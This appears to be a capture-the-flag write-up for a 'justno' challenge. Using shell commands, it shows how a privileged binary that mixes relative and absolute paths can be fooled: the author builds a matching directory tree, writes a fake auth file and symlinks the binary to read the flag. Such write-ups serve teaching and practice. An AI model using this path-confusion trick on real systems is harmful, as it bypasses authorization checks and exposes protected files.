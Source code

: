 First of all move to the correct directory by using the *cd* command:
```bash
cd /problems/579fe8ee083cd54f55718c1324687c74
```

Here we find 4 different files by writing **ls**.
The most interesting file is the **C-file**, which we can read by writing:
```bash
cat justno.c
```

In the code we can see that they are mixing relative and exact positions.
```c
Line 8:
../../problems/579fe8ee083cd54f55718c1324687c74/auth

Line 18:
/problems/579fe8ee083cd54f55718c1324687c74/flag
```

This means that one of the files could change without affecting the other one.
This could be abused in some situations, which is exactly what we will do.

Let's go back to our home directory by running the *cd* command without arguments:
```bash
cd
```

Then we will create a folder-structure matching the relative link in the code.
+-- home
    +-- problems
    |   +-- 579fe8ee083cd54f55718c1324687c74
    |       +-- auth
    +-- a
        +-- b
            +-- justno

*auth* should be a file containing anything other than the text 'no' according to the previous code.
*justno* should be the binary file associated with the *C-file*.
We can however not compile it on our own since then it won't have the correct rights.
The same problem applies if we try to copy the first file.
So what we have to do is to create a symbolic link to the file. This is done by using the *cp* command with the *-s* attribute.

We do this by entering the following commands:
```bash
mkdir a problems
mkdir a/b
mkdir problems/579fe8ee083cd54f55718c1324687c74

echo "yes" > problems/579fe8ee083cd54f55718c1324687c74/auth
cd a/b
cp -s /problems/579fe8ee083cd54f55718c1324687c74/justno ./
./justno
```
